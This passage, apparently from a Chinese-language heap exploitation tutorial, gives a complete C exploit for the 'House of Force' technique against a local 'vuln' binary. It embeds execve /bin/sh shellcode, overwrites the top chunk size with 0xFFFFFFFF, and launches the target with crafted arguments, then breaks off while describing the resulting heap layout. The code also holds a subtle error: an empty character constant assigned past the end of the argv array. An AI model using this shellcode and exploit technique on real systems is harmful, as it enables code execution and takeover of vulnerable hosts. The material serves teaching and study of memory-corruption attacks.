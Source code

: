 ``` c
/* Program to exploit executable 'vuln' using hof technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#define VULNERABLE "./vuln"
#define FREE_ADDRESS 0x08049858-0x8
#define MALLOC_SIZE "0xFFFFF744"
#define BUF3_USER_INP "\x08\xa0\x04\x08"
                
/* Spawn a shell. Size - 25 bytes. */
char scode[] =
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
        
int main( void )
{       
        int i;
        char * p;
        char argv1[ 265 ];
        char * argv[] = { VULNERABLE, argv1, MALLOC_SIZE, BUF3_USER_INP, NULL };
        
        strcpy(argv1,scode);
        for(i=25;i<260;i++)
                argv1[i] = 'A';
        
        strcpy(argv1+260,"\xFF\xFF\xFF\xFF"); /* Top chunk size */
        argv[264] = ''; /* Terminating NULL character */ 
        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```
一旦攻击者的命令行参数被拷贝到堆中，漏洞程序的堆内存变为下图所示：  